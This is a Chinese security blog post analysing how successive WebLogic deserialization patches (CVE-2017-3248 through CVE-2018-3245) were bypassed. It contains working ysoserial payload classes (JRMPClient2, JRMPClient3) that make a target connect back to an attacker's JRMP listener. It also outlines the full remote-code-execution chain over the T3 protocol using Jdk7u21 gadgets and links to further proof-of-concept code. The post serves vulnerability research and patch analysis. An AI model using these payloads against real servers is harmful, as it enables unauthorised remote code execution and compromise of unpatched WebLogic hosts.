# weblogic 之 CVE-2017-3248，CVE-2018-2628,CVE-2018-2893，CVE-2018-3245 反序列绕过分析 - Afant1 - 博客园

> 原文：[`www.cnblogs.com/afanti/p/10256840.html`](https://www.cnblogs.com/afanti/p/10256840.html)

说一下复现 CVE-2017-3248 可以参考 p 牛的环境，p 牛的环境 CVE-2018-2628 实际就是 CVE-2017-3248，他漏洞编号这块写错了。
攻击流程就如下图，攻击者开启 JRMPListener 监听在 1099 端口，等待受害者链接，当受害者链接时，把 gadgets 返回给客户端：


> CVE-2017-3248 以后的漏洞都是利用了 JRMP java 远程方法协议，利用 java.rmi.registry.Registry，序列化 RemoteObjectInvocationHandler，并使用 UnicastRef 和远端建立 tcp 连接，获取 RMI registry，最终将加载的内容利用 readObject()进行解析，导致之前序列化的恶意代码执行。

具体利用的时候用 ysoserial 的 payload，用到 Proxy 代理。

复现 2017-3248 就看 p 牛的 github，这里主要复现下 CVE-2017-3248 绕过。先看一下这漏洞的补丁,一般反序列操作防御 resolveProxyClass 和 resolveClass 方法重写，进行黑名单匹配。这里也就是我们重点看的：

```
protected Class<?> resolveProxyClass(String[] interfaces) throws IOException, ClassNotFoundException {
            String[] arr$ = interfaces;
            int len$ = interfaces.length;

            for(int i$ = 0; i$ < len$; ++i$) {
                String intf = arr$[i$];
                if (intf.equals("java.rmi.registry.Registry")) {
                    throw new InvalidObjectException("Unauthorized proxy deserialization");
                }
            }

            return super.resolveProxyClass(interfaces); 
```

> 补丁只是在 resolveProxyClass 方法将 java.rmi.registry.Registry 加入黑名单，没有将 UnicastRef 加入黑名单，所以出现以下俩种绕过：1、不使用代理机制就反序列化时就不会进入 resolveProxyClass 方法
> 2、找一个 java.rmi.activation.Activator 来替代 java.rmi.registry.Registry 生成 payload

先看第一种的 payload,在 ysoserial 攻击修改如下代码把 Proxy 去掉，重新打 jar 包，利用方式和 CVE-2017-3248 一样，能够绕过 resolveProxyClass 执行命令:

在看一下这块的补丁,在 resolveClass 时就把 UnicastRef 类防住了。

```
 private static final String[] DEFAULT_BLACKLIST_CLASSES = new String[]{"org.codehaus.groovy.runtime.ConvertedClosure", "org.codehaus.groovy.runtime.ConversionHandler", "org.codehaus.groovy.runtime.MethodClosure", "org.springframework.transaction.support.AbstractPlatformTransactionManager", "sun.rmi.server.UnicastRef"}; 
```

跟入 checkLegacyBlacklistIfNeeded 函数

跟到这里，看到如果反序列化的类是在黑名单中就抛出异常。

第二种绕过方式就是廖新喜的 payload,可以使用 java.rmi.activation.Activator 来替代 java.rmi.registry.Registry

```
public class JRMPClient2 extends PayloadRunner implements ObjectPayload<Activator> {

    public Activator getObject ( final String command ) throws Exception {

        String host;
        int port;
        int sep = command.indexOf(':');
        if ( sep < 0 ) {
            port = new Random().nextInt(65535);
            host = command;
        }
        else {
            host = command.substring(0, sep);
            port = Integer.valueOf(command.substring(sep + 1));
        }
        ObjID id = new ObjID(new Random().nextInt()); // RMI registry
        TCPEndpoint te = new TCPEndpoint(host, port);
        UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));
        RemoteObjectInvocationHandler obj = new RemoteObjectInvocationHandler(ref);
        Activator proxy = (Activator) Proxy.newProxyInstance(JRMPClient2.class.getClassLoader(), new Class[] {
            Activator.class
        }, obj);
        return proxy;
    }

    public static void main ( final String[] args ) throws Exception {
        Thread.currentThread().setContextClassLoader(JRMPClient2.class.getClassLoader());
        PayloadRunner.run(JRMPClient2.class, args);
    }
} 
```

CVE-2018-2893 的补丁将 RemoteObjectInvocationHandler 放入到了黑名单，而 CVE-2018-2628 的黑名单如下

```
CVE-2018-2628 补丁
    private static final String[] DEFAULT_BLACKLIST_CLASSES = new String[]{"org.codehaus.groovy.runtime.ConvertedClosure", "org.codehaus.groovy.runtime.ConversionHandler", "org.codehaus.groovy.runtime.MethodClosure", "org.springframework.transaction.support.AbstractPlatformTransactionManager", "sun.rmi.server.UnicastRef"}; 
```

```
CVE-2018-2893 的补丁
    private static final String[] DEFAULT_BLACKLIST_CLASSES = new String[]{"org.codehaus.groovy.runtime.ConvertedClosure", "org.codehaus.groovy.runtime.ConversionHandler", "org.codehaus.groovy.runtime.MethodClosure", "org.springframework.transaction.support.AbstractPlatformTransactionManager", "java.rmi.server.UnicastRemoteObject", "java.rmi.server.RemoteObjectInvocationHandler"}; 
```

执行的这里会被黑名单拦截。

还有一种绕过方式就是 CVE-2018-2893 利用 WebLogic 内部类 weblogic.jms.common.StreamMessageImpl 可被序列化并且在反序列化时可以调用 RMI 的类，可以绕过 WebLogic 的黑名单限制。
payload 如下,打好的 jar 包[在这里](https://blog.csdn.net/Jiajiajiang_/article/details/81939865)：

```
 public class JRMPClient3 extends PayloadRunner implements ObjectPayload<Registry> {

        public Object streamMessageImpl(byte[] object) {
            StreamMessageImpl streamMessage = new StreamMessageImpl();
            streamMessage.setDataBuffer(object, object.length);
            return streamMessage;
        }

        public Object getObject (final String command ) throws Exception {
            String host;
            int port;
            int sep = command.indexOf(':');
            if (sep < 0) {
                port = new Random().nextInt(65535);
                host = command;
            }
            else {
                host = command.substring(0, sep);
                port = Integer.valueOf(command.substring(sep + 1));
            }
            ObjID objID = new ObjID(new Random().nextInt()); 
            TCPEndpoint tcpEndpoint = new TCPEndpoint(host, port);
            UnicastRef unicastRef = new UnicastRef(new LiveRef(objID, tcpEndpoint, false));
            RemoteObjectInvocationHandler remoteObjectInvocationHandler = new RemoteObjectInvocationHandler(unicastRef);
            Object object = Proxy.newProxyInstance(JRMPClient.class.getClassLoader(), new Class[] { Registry.class }, remoteObjectInvocationHandler);
            return streamMessageImpl(Serializer.serialize(object));
        }

        public static void main ( final String[] args ) throws Exception {
            Thread.currentThread().setContextClassLoader(JRMPClient3.class.getClassLoader());
            PayloadRunner.run(JRMPClient3.class, args);
        }
    } 
```

resolveClass 处理到 StreamMessageImpl 时，

来到 CVE-2016-0638 的漏洞触发点，其中 859 行加入了过滤代码。当执行到 865 行时，跟进

java.rmi.server.RemoteObjectInvocationHandler 被加入黑名单

CVE-2018-2893 绕过参考[`xz.aliyun.com/t/2479#toc-2`](https://xz.aliyun.com/t/2479#toc-2)主要是绕过黑名单 RemoteObjectInvocationHandler 类，这个 CVE 编号就是：

## CVE-2018-3245

RMIConnectionImpl_Stub 代替 RemoteObjectInvocationHandler
最后说下怎么找到的 RMIConnectionImpl_Stub，实际上就是找 RemoteObject 类的子类。
CTRL+H 找到这三个是 RemoteObject 的子类

RemoteStub 找他的子类，最后找到 RMIConnectionImpl_Stub 类了

查看一下继承关系，下面这样的操作主要查找其父类比较方便。


所以 CVE-2018-3245 的补丁就是将基类 RemoteObject 禁掉，而不是禁用其子类
payload 参考：[`github.com/pyn3rd/CVE-2018-3245`](https://github.com/pyn3rd/CVE-2018-3245)
gadgets 经测试用 Jdk7u21 能够 RCE。
我测试没有打 CVE-2018-3245 补丁，对 RMIConnectionImpl_Stub 没有处理导致绕过

看下完整利用过程：
生产 poc

开启 JRMP 服务

通过 T3 协议写入 payload

受害服务器连接 JRMP 服务，攻击者将 Jdk7u21 的 gadgets 发送给受害服务器，导致 RCE。


参考链接：
[`github.com/vulhub/vulhub/tree/master/weblogic/CVE-2018-2628`](https://github.com/vulhub/vulhub/tree/master/weblogic/CVE-2018-2628) 
[`xz.aliyun.com/t/2479#toc-0`](https://xz.aliyun.com/t/2479#toc-0)
[`www.4hou.com/vulnerable/12874.html`](http://www.4hou.com/vulnerable/12874.html)
[`paper.seebug.org/584/`](https://paper.seebug.org/584/)